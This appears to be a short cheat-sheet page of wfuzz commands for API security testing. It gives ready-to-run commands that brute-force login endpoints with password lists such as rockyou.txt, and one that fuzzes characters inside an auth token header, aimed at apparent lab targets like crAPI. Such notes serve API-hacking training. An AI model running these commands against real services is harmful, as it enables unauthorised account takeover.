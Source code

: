 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# wfuzz

## Password brute force

```
wfuzz -c -z file,passwords --hh 0 -H "Content-Type: application/json" -d '{"email":"ajit@gmail.com","password":"FUZZ"}' http://crapi.apisec.ai/identity/api/auth/login
```

```
wfuzz -d '{"email":"a@email.com","password":"FUZZ"}' --hc 405 -H 'Content-Type: application/
json' -z file,/home/hapihacker/rockyou.txt http://192.168.195.130:8888/api/v2/auth
```

## Place letter in between

```
wfuzz -u vulnexample.com/api/v2/user/dashboard –hc 404 -H "token: Ab4dt0k3nFUZZFUZ2ZFUZ3Z1"
-z list,a-b-c-d -z list,a-b-c-d -z range,0-9
```
